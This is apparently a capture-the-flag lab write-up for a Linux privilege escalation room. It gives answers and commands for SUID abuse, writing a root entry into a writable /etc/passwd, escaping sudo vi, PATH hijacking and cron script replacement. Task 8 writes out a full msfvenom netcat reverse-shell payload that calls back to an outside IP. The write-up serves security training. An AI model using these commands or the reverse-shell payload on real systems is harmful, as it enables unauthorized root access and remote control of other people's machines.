 Task 3  Direction of Privilege Escalation
------------------------------------------

#### Privilege Tree:

![](pic1.png?raw=true)


**There are two main privilege escalation variants**:

***Horizontal privilege escalation***: This is where you expand your reach over the compromised system by taking over a different user who is on the same privilege level as you. For instance, a normal user hijacking another normal user (rather than elevating to super user). This allows you to inherit whatever files and access that user has. This can be used, for example, to gain access to another normal privilege user, that happens to have an SUID file attached to their home directory (more on these later) which can then be used to get super user access. [Travel sideways on the tree]

Contrary to vertical privilege escalation, lateral movement is a form of horizontal privilege escalation.


***Vertical privilege escalation (privilege elevation)***: This is where you attempt to gain higher privileges or access, with an existing account that you have already compromised. For local privilege escalation attacks this might mean hijacking an account with administrator privileges or root privileges. [Travel up on the tree]


Task4: Enumeration
-------------------

Everything are same as the [03.Linux PrivEsc] room...


1. First, lets SSH into the target machine, using the credentials user3:password. This is to simulate getting a foothold on the system as a normal privilege user.

2. What is the target's hostname?

--> polobox

3. Look at the output of /etc/passwd how many "user[x]" are there on the system?

```
$ cat -n /etc/passwd | grep -E user[0-9]
```
--> 8

4. How many available shells are there on the system?

```
$ cat /etc/shells
```
--> 4

5. What is the name of the bash script that is set to run every 5 minutes by cron?

--> autoscript.sh

6. What critical file has had its permissions changed to allow some users to write to it?

--> /etc/passwd

7. Well done! Bear the results of the enumeration stage in mind as we continue to exploit the system!


Task5:  Abusing SUID/GUID Files
--------------------------------

1. What is the path of the file in user3's directory that stands out to you?

--> /home/user3/shell

2. We can do this by running: "./shell"

```
$ ls -l shell
-rwsr-xr-x 1 root root 8392 Jun  4  2019 shell
```

3. Congratulations! You should now have a shell as root user, well done!


Task:6  Exploiting Writeable /etc/passwd
-----------------------------------------

1. First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user7, with the password "password"


2. Having read the information above, what direction privilege escalation is this attack?

---> vertical

Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: `"openssl passwd -1 -salt [salt] [password]"`


3. What is the hash created by using this command with the salt, "new" and the password "123"?

--> $1$new$p7ptkEKU1HnaHpRtzNizS1

4. Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

--> `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`

5. Great! Now you've got everything you need. Just add that entry to the end of the /etc/passwd file!

6. Now, use "su" to login as the "new" account, and then enter the password. If you've done everything correctly- you should be greeted by a root prompt! Congratulations!


Task7:  Escaping Vi Editor
---------------------------

1. First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user8, with the password "password"

2. Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?

--> NOPASSWD

3. So, all we need to do is open vi as root, by typing "sudo vi" into the terminal.

4. Now, type ":!sh" to open a shell!


Task8:  Exploiting Crontab
---------------------------

1. First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user4, with the password "password"

2. Now, on our host machine- let's create a payload for our cron exploit using msfvenom. 

3. What is the flag to specify a payload in msfvenom?

--> -p

4. Create a payload using: "**msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R**"

--> Created payload: `mkfifo /tmp/vmpspfp; nc 10.8.112.253 8888 0</tmp/vmpspfp | /bin/sh >/tmp/vmpspfp 2>&1; rm /tmp/vmpspfp`


5. What directory is the "autoscript.sh" under?

--> /home/user4/Desktop

6. Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

7. After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "nc -lvnp 8888" and wait for our shell to land!

8. After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!



Task 9  Exploiting PATH Variable
---------------------------------

1. Going back to our local ssh session, not the netcat root session, you can close that now, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user5, with the password "password"


2. Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?

--> ls

3. Now we know what command to imitate, let's change directory to "tmp". 

4. Now we're inside tmp, let's create an imitation executable. The format for what we want to do is:

echo "[whatever command we want to run]" > [name of the executable we're imitating]

What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating

--> `echo "/bin/bash" > ls`


5. Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?

--> chmod +x ls

6. Now, we need to change the PATH variable, so that it points to the directory where we have our imitation "**ls**" stored! We do this using the command "**export PATH=/tmp:$PATH**"

Note, this will cause you to open a bash prompt every time you use "**ls**". If you need to use "**ls**" before you finish the exploit, use "**/bin/ls**" where the real "**ls**" executable is.

Once you've finished the exploit, you can exit out of root and use "**export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH**" to reset the PATH variable back to default, letting you use "ls" again!


7. Now, change directory back to user5's home directory.

8. Now, run the "script" file again, you should be sent into a root bash prompt! Congratulations!



Task 10  Expanding Your Knowledge
----------------------------------

Below is a list of good checklists to apply to CTF or penetration test use cases.Although I encourage you to make your own using CherryTree or whatever notes application you prefer.

	- [https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
	- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
	- [https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
	- [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)


